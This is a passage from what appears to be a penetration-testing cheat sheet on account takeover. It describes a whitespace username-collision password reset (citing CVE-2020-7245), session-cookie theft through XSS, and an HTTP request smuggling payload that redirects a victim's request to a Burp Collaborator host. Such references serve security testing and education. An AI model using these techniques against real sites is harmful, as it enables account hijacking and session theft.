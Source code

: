 ### Password Reset Via Username Collision

1. Register on the system with a username identical to the victim's username, but with white spaces inserted before and/or after the username. e.g: `"admin "`
2. Request a password reset with your malicious username.
3. Use the token sent to your email and reset the victim password.
4. Connect to the victim account with the new password.

The platform CTFd was vulnerable to this attack. 
See: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

## Account Takeover Via Cross Site Scripting

1. Find an XSS inside the application or a subdomain if the cookies are scoped to the parent domain : `*.domain.com`
2. Leak the current **sessions cookie**
3. Authenticate as the user using the cookie

## Account Takeover Via HTTP Request Smuggling

Refer to **HTTP Request Smuggling** vulnerability page.
1. Use **smuggler** to detect the type of HTTP Request Smuggling (CL, TE, CL.TE)
    ```powershell
    git clone https://github.com/defparam/smuggler.git
    cd smuggler
    python3 smuggler.py -h
    ```
2. Craft a request which will overwrite the `POST / HTTP/1.1` with the following data:
    ```powershell
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: 
    ```
3. Final request could look like the following
    ```powershell
    GET /  HTTP/1.1
    Transfer-Encoding: chunked
    Host: something.com
    User-Agent: Smuggler/v1.0
    Content-Length: 83

    0

    GET http://something.burpcollaborator.net  HTTP/1.1
    X: X
    ```
    
Hackerone reports exploiting this bug
* https://hackerone.com/reports/737140
* https://hackerone.com/reports/771666

## Account Takeover via CSRF
